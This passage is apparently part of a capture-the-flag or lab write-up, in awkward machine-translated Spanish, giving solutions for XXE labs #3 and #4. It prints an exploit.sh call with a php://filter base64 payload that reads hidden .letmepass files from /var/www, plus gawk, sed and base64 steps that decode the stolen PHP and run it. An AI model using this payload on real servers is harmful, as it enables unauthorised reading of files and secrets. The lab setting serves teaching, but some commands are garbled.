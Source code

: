 ```bash
[Step 1] | gawk 'match($0, /<b>XXEME (.*)<\\\/b>/, m) { print m[1] }'
```

Eliminar JSON escapar de los personajes:

```bash
[Steps 1|2] | sed 's/\\\//\//g'
```

Base64 decodificar y almacenar resulta en un archivo:

```bash
[Steps 1|2|3] | base64 -d > whaat.php

OR

[Steps 1|2|3] | base64 -D > whaat.php
```

De-obfuscar la variable $config y ejecutar el script php:

```bash
echo 'var_dump($config);' >> whaat.php | php whaat.php
```

Testing command:

```bash
./exploit.sh php://filter/convert.base64-encode/resource=/var/www /3/.letmepass \
| awk 'match($0, /<b>XXEME (.*)<\\\/b>/, m) { print m[1] }' \
| sed 's/\\\//\//g' \
| base64 -d > whaat.php

echo 'var_dump($config);' >> whaat.php | php whaat.php
```

### Solutions - Lab #4

Un archivo png contiene la solución:

\*Te gusta ASCII? Lo hago. Subs de explotación

Descargar la base64 codificado el contenido de .letmepass:

```bash
./exploit.sh php://filter/convert.base64-encode/resource=/var/www/4/.letmepass.php
```

Extraer el contenido del resultado:

```bash
[Step 1] | gawk 'match($0, /<b>XXEME (.*)<\\\/b>/, m) { print m[1] }'
```

Eliminar los charater de fuga de JSON:

```bash
[Steps 1|2] | sed 's/\\\//\//g'
```

Base64 decodificar y almacenar resulta en un archivo:
